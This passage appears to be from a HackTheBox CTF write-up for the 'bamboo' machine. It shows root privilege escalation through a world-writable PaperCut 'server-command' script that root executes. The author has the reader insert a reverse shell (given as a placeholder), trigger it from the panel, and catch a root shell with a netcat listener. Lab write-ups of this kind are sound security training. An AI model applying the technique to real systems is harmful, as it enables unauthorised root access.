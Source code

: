 ```
2025/10/21 21:46:39 CMD: UID=0     PID=84955  | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key

meterpreter > ls /home/papercut/server/bin/linux-x64/server-command
100776/rwxrwxrw-  493  fil  2022-09-29 10:44:26 +0330  /home/papercut/server/bin/linux-x64/server-command

```

add your reverse shell payload to the script file.

```
#!/bin/sh
#
# (c) Copyright 1999-2013 PaperCut Software International Pty Ltd
#
# A wrapper for server-command
#
< ADD YOUR REVERSE SHELL >

. `dirname $0`/.common

export CLASSPATH
${JRE_HOME}/bin/java \
        -Djava.io.tmpdir=${TMP_DIR} \
        -Dserver.home=${SERVER_HOME} \
        -Djava.awt.headless=true \
        -Djava.locale.providers=COMPAT,SPI \
        -Dlog4j.configurationFile=file:${SERVER_HOME}/lib/log4j2-command.properties \
        -Xverify:none \
        biz.papercut.pcng.server.ServerCommand \
        "$@"

```

hit **Refresh server** from the panel to activate your reverse shell

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.15.52] from (UNKNOWN) [10.129.54.74] 40386
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /root
total 52
drwx------  7 root root 4096 Oct 21 18:33 .
drwxr-xr-x 19 root root 4096 Sep 30 16:30 ..
lrwxrwxrwx  1 root root    9 Sep 30 16:30 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 May 28  2023 .cache
drwxr-xr-x  2 root root 4096 May 26  2023 .deploy
-rw-------  1 root root   20 Sep 30 14:21 .lesshst
drwxr-xr-x  3 root root 4096 May 26  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 May 26  2023 .ssh
-rw-r--r--  1 root root    0 May 26  2023 .sudo_as_admin_successful
-rw-r--r--  1 root root  165 Sep 30 16:30 .wget-hsts
-rw-r--r--  1 root root  200 Sep 30 14:21 output
-rw-r-----  1 root root   33 Oct 21 18:33 root.txt
drwx------  4 root root 4096 May 26  2023 snap
#

```
